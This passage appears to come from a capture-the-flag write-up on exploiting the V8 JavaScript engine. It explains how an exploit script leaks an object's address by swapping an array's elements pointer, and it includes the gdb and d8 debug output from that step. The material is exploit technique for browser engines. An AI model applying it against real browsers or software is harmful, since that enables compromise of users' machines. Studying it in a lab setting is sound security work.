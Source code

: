 What we did here is, retrieve the address of the `aux_arr_obj` which is the located at the address `elem_arr_ptr - 0xc4n` then we change the pointer of the elements to that of the object.

```asm
gef➤  r --shell --allow-natives-syntax ~/CTFs/xpl.js 
Starting program: /home/d4mian/CTFs/d8 --shell --allow-natives-syntax ~/CTFs/xpl.js
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New Thread 0x7ffff7006700 (LWP 4593)]
[+] Float array map: 0x82438fd
[+] Pointer to array elements: 0x8084f69
[+] Element Object Array: 0x8084ea5
V8 version 8.7.9
d8> %DebugPrint(aux_obj_arr);
DebugPrint: 0x194f08084eb5: [JSArray]
 - map: 0x194f0824394d <Map(PACKED_ELEMENTS)> [FastProperties]
 - prototype: 0x194f0820a555 <JSArray[0]>
 - elements: 0x194f08084ea9 <FixedArray[1]> [PACKED_ELEMENTS]
 - length: 1
 - properties: 0x194f080426dd <FixedArray[0]> {
    0x194f08044649: [String] in ReadOnlySpace: #length: 0x194f08182159 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x194f08084ea9 <FixedArray[1]> {
           0: 0x194f08084e7d <Object map = 0x194f0824579d>
 }
0x194f0824394d: [Map]
 - type: JS_ARRAY_TYPE
 - instance size: 16
 - inobject properties: 0
 - elements kind: PACKED_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - back pointer: 0x194f08243925 <Map(HOLEY_DOUBLE_ELEMENTS)>
 - prototype_validity cell: 0x194f08182445 <Cell value= 1>
 - instance descriptors #1: 0x194f0820abd9 <DescriptorArray[1]>
 - transitions #1: 0x194f0820ac55 <TransitionArray[4]>Transition array #1:
     0x194f08044f5d <Symbol: (elements_transition_symbol)>: (transition to HOLEY_ELEMENTS) -> 0x194f08243975 <Map(HOLEY_ELEMENTS)>

 - prototype: 0x194f0820a555 <JSArray[0]>
 - constructor: 0x194f0820a429 <JSFunction Array (sfi = 0x194f0818b399)>
 - dependent code: 0x194f080421e1 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0

[{a: 1}]
d8> "0x"+ftoi(aux_arr[0], 64).toString(16);
"0x8084e7d00000002"
d8> 
```
> Remember, when analysing the address, be sure to subtract 1 from it since pointers are tagged.
